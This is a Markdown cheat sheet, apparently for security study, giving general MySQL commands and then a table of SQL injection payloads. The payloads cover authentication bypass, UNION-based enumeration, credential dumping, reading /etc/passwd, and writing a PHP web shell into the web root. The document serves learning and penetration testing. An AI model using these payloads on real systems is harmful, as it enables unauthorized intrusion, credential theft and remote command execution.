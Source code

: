 ```yaml
---
layout: post
category: cheatsheets
---
```


### Table of Contents

- [MySQL](#mysql)
    - [General Commands](#general-commands)
    - [Mysql Operator Precedence](#mysql-operator-precedence)
    - [SQL Injection](#sql-injection)


## MySQL

## General Commands

| **Command**   | **Description**   |
| --------------|-------------------|
| ```mysql -u root -h server -P 3306 -p``` | login to mysql database |
| ```SHOW DATABASES``` | List available databases |
| ```USE users``` | Switch to database |
| **Tables** |
| ```CREATE TABLE logins (id INT, ...)``` | Add a new table |
| ```SHOW TABLES``` | List available tables in current database |
| ```DESCRIBE logins``` | Show table properties and columns |
| ```INSERT INTO table_name VALUES (value_1,..)``` | Add values to table |
| ```INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)``` | Add values to specific columns in a table |
| ```UPDATE table_name SET column1=newvalue1, ... WHERE <condition>``` | Update table values |
| **Columns** |
| ```SELECT * FROM table_name``` | Show all columns in a table |
| ```SELECT column1, column2 FROM table_name``` | Show specific columns in a table |
| ```DROP TABLE logins``` | Delete a table |
| ```ALTER TABLE logins ADD newColumn INT``` | Add new column |
| ```ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn``` | Rename column |
| ```ALTER TABLE logins MODIFY oldColumn DATE``` | Change column datatype |
| ```ALTER TABLE logins DROP oldColumn``` | Delete column |
| **Output** |
| ```SELECT * FROM logins ORDER BY column_1``` | Sort by column |
| ```SELECT * FROM logins ORDER BY column_1 DESC``` | Sort by column in descending order |
| ```SELECT * FROM logins ORDER BY column_1 DESC, id ASC``` | Sort by two-columns |
| ```SELECT * FROM logins LIMIT 2``` | Only show first two results |
| ```SELECT * FROM logins LIMIT 1, 2``` | Only show first two results starting from index 2 |
| ```SELECT * FROM table_name WHERE <condition>``` | List results that meet a condition |
| ```SELECT * FROM logins WHERE username LIKE 'admin%'``` | List results where the name is similar to a given string |

## MySQL Operator Precedence
* Division (```/```), Multiplication (```*```), and Modulus (```%```)
* Addition (```+```) and Subtraction (```-```)
* Comparison (```=```, ```>```, ```<```, ```<=```, ```>=```, ```!=```, ```LIKE```)
* NOT (```!```)
* AND (```&&```)
* OR (```||```)

## SQL Injection

| **Payload** | **Description**   |
| ------------|-------------------|
| **Auth Bypass** |
| ```admin' or '1'='1``` | Basic Auth Bypass |
| ```admin')-- -``` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |
| **Union Injection** |
| ```' order by 1-- -``` | Detect number of columns using ```order by``` |
| ```cn' UNION select 2,2,3-- -``` | Detect number of columns using Union injection add a value everytime |
| ```cn' UNION select 1,@@version,3,4-- -``` | Basic Union injection, Find where you can return data |
| ```UNION select username, 2, 3, 4 from passwords-- -``` | Union injection for 4 columns |
| **DB Enumeration** |
| ```SELECT @@version``` | Fingerprint MySQL with query output |
| ```SELECT SLEEP(5)``` | Fingerprint MySQL with no output |
| ```cn' UNION select 1,database(),2,3-- -``` | Current database name |
| ```cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -``` | List all databases |
| ```cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -``` | List all tables in a specific database |
| ```cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -``` | List all columns in a specific table |
| ```cn' UNION select 1, username, password, 4 from dev.credentials-- -``` | Dump data from a table in another database |
| **Privileges** |
| ```cn' UNION SELECT 1, user(), 3, 4-- -``` | Find current user |
| ```cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -``` | Find if user has admin privileges |
| ```cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -``` | Find if all user privileges |
| ```cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -``` | Find which directories can be accessed through MySQL |
| **File Injection** |
| ```cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -``` | Read local file |
| ```select 'file written successfully!' into outfile '/var/www/html/proof.txt'``` | Write a string to a local file |
| ```cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -``` | Write a web shell into the base web directory |